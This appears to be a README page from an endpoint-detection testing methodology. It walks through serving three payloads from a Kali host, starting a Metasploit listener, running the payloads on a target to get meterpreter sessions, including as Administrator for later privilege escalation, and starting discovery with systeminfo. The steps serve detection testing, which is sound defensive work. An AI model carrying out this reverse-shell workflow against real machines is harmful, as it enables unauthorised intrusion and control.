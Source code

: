# Phase 1 Testing

## Payload Delivery

Start this test by starting a web server using python in the same directory your 3 payloads exist on you're Kali system.

```
python3 -m http.server
```

On target machine download the three payloads, record if any alerts fire for this activity. 
You may also try different browsers as that can result in different checks and hooks used by the endpoint software.

If all files are blocked you can either allow the downloads manaually in the security stack or conclude the test.


## Execution

Start you MSF listener on your attacker host. The msf.rc is a configuration file for Metasploit, you can take the contents or download this [file](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/msf.rc), make sure to update the SSL to the certificate you created in the [initial setup phase](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/MSF-Setup.md#inital-setup-for-msf-testing) and change the LHOST IP to the IP on you Kali machine.

```
sudo msfconsole -r msf.rc
```

Run the three test files from 1 to 3 by simply double clicking, and record the detection results. It is recommended to right click and run at least one of the payloads as Administrator to facilitate later testing for privesc.

## Discovery

The rests of the tests will be ran from out created meterpreter sessions.

First let's run systeminfo on the system:
(session -i start an interactive sessions where N is the number of the meterpreter session your host has established.)
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell


systeminfo
```

The second discover task is to look for connected domain trusts and administrative accounts.
